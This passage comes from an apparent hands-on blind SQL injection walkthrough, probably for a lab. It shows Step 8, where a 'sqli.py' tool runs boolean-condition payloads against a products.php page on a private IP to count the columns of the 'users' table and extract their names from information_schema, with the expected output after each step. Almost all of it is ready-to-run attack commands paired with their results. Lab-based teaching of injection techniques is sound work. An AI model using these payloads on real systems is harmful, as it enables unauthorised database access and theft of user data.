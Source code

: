 **Expected Output:**

```
(empty - no more tables)
```

**Write down**: `Tables = products, users, orders, sessions`

***

## Step 8: Extract Column Names

### What You're Doing

Finding what columns exist in the `users` table.

### Count Columns

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --param id --base 1 \
  --template "' OR ({condition})-- -" \
  --true-string "Welcome" \
  --query "(SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users')" \
  --maxlen 8
```

**Expected Output:**

```
5
```

**What this means**: The `users` table has 5 columns.

***

### Extract Each Column Name

**Column 1:**

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --param id --base 1 \
  --template "' OR ({condition})-- -" \
  --true-string "Welcome" \
  --query "(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0)" \
  --maxlen 32
```

**Expected Output:**

```
id
```
